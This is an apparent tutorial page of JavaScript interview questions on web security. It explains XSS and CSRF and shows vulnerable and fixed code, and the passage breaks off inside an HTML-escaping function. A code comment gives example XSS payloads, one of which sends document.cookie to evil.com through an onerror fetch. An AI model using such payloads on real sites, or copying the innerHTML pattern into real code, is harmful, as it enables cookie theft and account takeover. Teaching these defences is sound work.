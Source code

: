 # JavaScript Developer Interview Questions Part 7: Security

## Security

25. **Explain the security vulnerabilities that can occur in JavaScript and how to prevent them.**
    - XSS (Cross-Site Scripting), CSRF (Cross-Site Request Forgery), etc.
    
    **Description:** JavaScript web applications can be vulnerable to various security threats. XSS (Cross-Site Scripting) allows attackers to inject malicious scripts into web pages that execute in users' browsers, which can be prevented by properly validating and escaping user input or using Content-Security-Policy headers. CSRF (Cross-Site Request Forgery) tricks authenticated users into executing unwanted actions when visiting an attacker's site, preventable through CSRF tokens, SameSite cookie attributes, and requiring additional authentication for important operations. Other vulnerabilities include injection attacks (SQL, NoSQL, Command), using vulnerable dependencies, improper authentication and session management, sensitive information exposure, and security misconfiguration. To prevent these vulnerabilities, developers should implement input validation, output escaping, use up-to-date security libraries, apply HTTPS, configure CORS properly, conduct regular security audits and updates, and follow the principle of least privilege. Additionally, developers should follow OWASP (Open Web Application Security Project) guidelines and foster a security-focused development culture.
    
    **Example:**
    ```javascript
    // 1. XSS (Cross-Site Scripting) vulnerability example
    
    // Vulnerable code: directly inserting user input
    function vulnerableToXSS() {
      // Get parameter from URL
      const userInput = new URLSearchParams(window.location.search).get('comment');
      
      // Dangerous: inserting user input directly into the DOM
      document.getElementById('comments').innerHTML = userInput;
      
      // An attacker could use a URL like:
      // https://example.com/page?comment=<script>alert('XSS');</script>
      // Or more dangerous code:
      // https://example.com/page?comment=<img src="x" onerror="fetch('https://evil.com/steal?cookie='+document.cookie)">
    }
    
    // XSS prevention methods: escaping input values
    function preventXSS() {
      const userInput = new URLSearchParams(window.location.search).get('comment');
      
      // Method 1: Use textContent
      document.getElementById('comments').textContent = userInput; // Using textContent instead of innerHTML
      
      // Method 2: Use HTML escaping function
      function escapeHTML(str) {
        return str
          .replace(/&/g, '&amp;')
          .replace(/</g, '&lt;')
          .replace(/>/g, '&gt;')
          .replace(/"/g, '&quot;')
          .replace(/'/g, '&#039;');
      }
      
